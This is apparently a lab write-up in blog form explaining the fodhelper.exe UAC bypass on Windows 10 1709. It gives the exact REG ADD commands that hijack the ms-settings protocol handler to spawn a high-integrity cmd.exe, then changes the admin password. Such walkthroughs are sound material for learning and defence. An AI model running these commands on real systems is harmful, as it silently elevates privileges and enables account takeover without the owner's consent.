 ```yaml
---
description: >-
  (UAC) Bypass - fodhelper.exe
title: (UAC) Bypass - fodhelper.exe              # Add title here
date: 2023-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Windows - (UAC) Bypass - fodhelper.exe]                     # Change Templates to Writeup
tags: [uac bypass, fodhelper, windows privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

UAC can be bypassed in various ways. This post is only a technique that allows an administrator user to bypass UAC by silently elevating our integrity level from medium to high.

Most of the publicly known UAC bypass techniques target a specific operating system version. In this case, the target is our lab client running Windows 10 build 1709. We will leverage an interesting UAC bypass based on fodhelper.exe, a Microsoft support application responsible for managing language changes in the operating system. Specifically, this application is launched whenever a local user selects the "Manage optional features" option in the "Apps & features" Windows Settings screen.

The fodhelper.exe binary runs as _high integrity_ on Windows 10 1709. We can leverage this to bypass UAC because of the way fodhelper interacts with the Windows Registry. More specifically, it interacts with registry keys that can be modified without administrative privileges.

In order to gather detailed information regarding the fodhelper integrity level and the permissions required to run this process, we will inspect its _application manifest_. The application manifest is an XML file containing information that lets the operating system know how to handle the program when it is started. We'll inspect the manifest with the sigcheck utility from Sysinternals, passing the -a argument to obtain extended information and -m to dump the manifest.

```
C:\> cd C:\Tools\privilege_escalation\SysinternalsSuite

C:\Tools\privilege_escalation\SysinternalsSuite> sigcheck.exe /accepteula -a -m C:\Windows\System32\fodhelper.exe

c:\windows\system32\fodhelper.exe:
        Verified:       Signed
        Signing date:   4:40 AM 9/29/2017
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Features On Demand Helper
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.16299.15
        File version:   10.0.16299.15 (WinBuild.160101.0800)
        MachineType:    32-bit
        Binary Version: 10.0.16299.15
        Original Name:  FodHelper.EXE
        Internal Name:  FodHelper
        Copyright:      ® Microsoft Corporation. All rights reserved.
        Comments:       n/a
        Entropy:        6.306
        Manifest:
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!-- Copyright (c) Microsoft Corporation -->
<assembly
   xmlns="urn:schemas-microsoft-com:asm.v1"
   xmlns:asmv3="urn:schemas-microsoft-com:asm.v3"
   manifestVersion="1.0">
 <assemblyIdentity type="win32" publicKeyToken="6595b64144ccf1df" 
    name="Microsoft.Windows.FodHelper" version="5.1.0.0" 
    processorArchitecture="x86"/>
 <description>Features On Demand Helper UI</description>
 <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3">
  <security>
      <requestedPrivileges>
          <requestedExecutionLevel
            level="requireAdministrator"
          />
      </requestedPrivileges>
  </security>
 </trustInfo>
 <asmv3:application>
    <asmv3:windowsSettings 
      xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
        <dpiAware>true</dpiAware>
        <autoElevate>true</autoElevate>
    </asmv3:windowsSettings>
 </asmv3:application>
</assembly>
```

A quick look at the results shows that the application is meant to be run by administrative users and as such, requires the full administrator access token. Additionally, the _autoelevate_ flag is set to _true_, which allows the executable to auto-elevate to _high integrity_ without prompting the administrator user for consent.

This could allow us to hijack the execution through a properly formatted protocol handler. Let's try to add this key with the _REG_ utility:

```
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
The operation completed successfully.

C:\Users\admin>
```

Fodhelper.exe attempts to query a value (DelegateExecute) stored in our newly-created command key. Our hope is that when fodhelper discovers this empty value, it will follow the MSDN specifications for application protocols and will look for a program to launch specified in the Shell\\Open\\command\\Default key entry.

We will use REG ADD with the /v argument to specify the value name and /t to specify the type:

```
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
The operation completed successfully.
```

We'll set our new registry value. We'll also specify the new registry value with /d "cmd.exe" and /f to add the value silently.

```
C:\Users\admin> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
The operation completed successfully.
```

After setting the value and running fodhelper.exe once again, we are presented with a command shell. The output of the whoami /groups command indicates that this is a high-integrity command shell. Next, we'll attempt to change the admin password to see if we can successfully bypass UAC:

```
C:\Windows\system32> net user admin Ev!lpass
The command completed successfully.
```

The password change is successful and we have successfully bypassed UAC!